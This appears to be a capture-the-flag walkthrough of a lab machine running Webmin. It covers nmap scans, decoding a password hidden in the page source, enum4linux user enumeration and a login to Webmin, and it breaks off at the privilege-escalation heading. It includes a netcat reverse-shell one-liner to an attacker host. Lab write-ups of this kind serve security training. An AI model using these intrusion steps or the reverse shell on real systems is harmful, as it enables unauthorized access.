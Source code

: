first enumeration with nmap

```shell
# Nmap 7.94 scan initiated Sat Aug 26 16:57:19 2023 as: nmap -p- --min-rate 1000 -oN fulltcp.txt -v -Pn 192.168.224.238
Nmap scan report for 192.168.224.238
Host is up (0.14s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE SERVICE
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
10000/tcp open  snet-sensor-mgmt
20000/tcp open  dnp

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sat Aug 26 16:58:40 2023 -- 1 IP address (1 host up) scanned in 81.77 seconds
```
first run full port scan to know what ports are open, let's run nmap default script to know what services are running on those port.

```shell
# Nmap 7.94 scan initiated Sat Aug 26 17:01:43 2023 as: nmap -sC -sV -T4 -oN normal.txt -p 80,139,445,10000,20000 -Pn 192.168.224.238
Nmap scan report for 192.168.224.238
Host is up (0.22s latency).

PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.51 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.51 (Debian)
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
10000/tcp open  http        MiniServ 1.981 (Webmin httpd)
|_http-server-header: MiniServ/1.981
|_http-title: 200 &mdash; Document follows
20000/tcp open  http        MiniServ 1.830 (Webmin httpd)
|_http-server-header: MiniServ/1.830
|_http-title: 200 &mdash; Document follows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-08-26T16:01:57
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 26 17:02:28 2023 -- 1 IP address (1 host up) scanned in 45.39 seconds
```
cool we now know what services are running on those ports. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/9245b006-23fa-4d0d-a8be-0ab7dd83d64b)

Noticed a web server running on port 80, opening it on a browser, we got a default apache webpage. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/2b292a80-7345-4800-802b-9d03a653e7c8)

checking the source code, we can see a text encoded in brainfuck encryption.

```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
```
let's decode it 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/bb49abe6-0a9c-4949-9412-05621e589d17)

decoded the text using [decode](https://www.dcode.fr/brainfuck-language). we got `.2uqPEfj3D<P'a-3`. let's enumerate further. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/ef6290c5-6d83-4a4e-adfc-977c1a084617)

noticed another web server on port `10000` opening it on a browser, we got redirected to a webmin login page, remember we got a potential password earlier, tried to login admin and using the decoded text as password, it failed.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/31f08e59-b981-4981-8ccc-6b4b63cb08e9)

another webmin server is running on port `20000` tried to login using the same creds as earlier, failed. 🤔 let's enumerate harder. let shoot `enum4linux` to get available users so as to do a username enumeration on the login page.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/7605fb0f-3a76-4d09-ac91-1f707b5bc850)

running `enum4linux -a $IP` we got to see a unix user `cyber`. let's try to login the webmin server using this username and the potential password from earlier.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/a51d6dbe-d6a6-4bab-b102-2f39502a0418)

Bankai!!! 🔥 we are able to login to the webmin server on port `20000` using cred `cyber:.2uqPEfj3D<P'a-3`. let's play around and find a way to get shell.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/a5ca8b68-84db-4d84-8b35-547d1f326b16)

clicking on the terminal button, we got into a terminal we can run shell commands on. let's spawn a reverse shell.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/1faffc8d-b063-474f-8fc4-dee4e356b23f)

spawned a reverse shell using `/bin/nc -e /bin/bash $IP $port`


## Privilege Escalation


